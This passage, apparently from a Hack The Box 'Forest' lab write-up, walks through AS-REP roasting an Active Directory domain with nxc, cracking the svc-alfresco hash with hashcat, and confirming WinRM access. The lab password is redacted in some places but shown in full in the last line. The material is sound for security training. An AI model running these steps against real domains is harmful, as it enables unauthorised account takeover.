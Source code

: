 {% code overflow="wrap" %}
```
$ nxc ldap 10.10.10.161 -u users.lst -p '' --asreproast asreproast.lst
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
LDAP        10.10.10.161    445    FOREST           $krb5asrep$23$svc-alfresco@HTB.LOCAL:a89<REDACTED>8fa
```
{% endcode %}

We got back the hash of the `svc_alfresco` account, so we can try to crack it. If we supply just the hash file and a password list to Hashcat, the **auto-detect function** will find the appropriate mode to use and subsequently attempt to crack it.&#x20;

{% code overflow="wrap" fullWidth="false" %}
```bash
# asking hashcat to display the appropriate mode and then apply it
$ hashcat asreproast.lst /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6-850-gfafb277e0) starting in autodetect mode

OpenCL API (OpenCL 3.0 ) - Platform #1 [Intel(R) Corporation]
=============================================================
* Device #1: Intel(R) Graphics [0x9a60], 3200/6465 MB (512 MB allocatable), 32MCU

OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 16.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #2 [The pocl project]
==================================================================================================================================================
* Device #2: cpu-skylake-avx512-11th Gen Intel(R) Core(TM) i7-11800H @ 2.30GHz, skipped

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

18200 | Kerberos 5, etype 23, AS-REP | Network Protocol
<SNIP>
$krb5asrep$23$svc-alfresco@HTB.LOCAL:a89<REDACTED>8fa:s<REDACTED>e
<SNIP>
```
{% endcode %}

Next, we can validate the credentials and check if the user has WinRM access.

{% code overflow="wrap" fullWidth="false" %}
```bash
# validate credentials
$ nxc smb 10.10.10.161 -u 'svc-alfresco' -p 's<REDACTED>e'
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\svc-alfresco:s<REDACTED>e

# check for WinRM access
$ nxc winrm 10.10.10.161 -u 'svc-alfresco' -p 's<REDACTED>e'
SMB         10.10.10.161    445    FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local)
WINRM       10.10.10.161    5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```
{% endcode %}
